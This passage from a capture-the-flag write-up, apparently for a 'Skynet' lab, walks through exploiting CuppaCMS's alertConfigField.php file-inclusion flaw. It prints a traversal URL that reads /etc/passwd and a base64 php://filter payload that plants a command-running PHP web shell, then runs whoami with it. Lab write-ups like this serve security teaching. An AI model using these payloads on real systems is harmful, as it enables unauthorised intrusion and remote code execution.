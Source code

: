 The CMS is 'CuppaCMS', and since there are no credentials available to use, the next step is to find a vulnerability of CuppaCMS to exploit

After searching 'cuppa' on the Exploit DB, a CVE appears, which uses local/remote file inclusion on the `alertConfigField.php` page

### 1.4

To execute the remote file inclusion attacks, I will use the following URL: `http://10.10.97.28/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=[payload]`

To start, I will try to print the `/etc/passwd` file: `http://10.10.97.28/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`

![alt text](./images/skynet/img_10.png)

This shows that there is a `milesdyson` user on the machine

To run a command on the machine, I will use the following payload:

```
http://10.10.97.28/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+
```

This will allow us to execute a command by appending `&cmd=<command>` at the end of it

Running `http://10.10.97.28/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=whoami` gives `www-data` as a result, meaning that remote code execution is possible in the machine

Using the `ls /home/milesdyson` command shows a `user.txt` file

![alt text](./images/skynet/img_11.png)
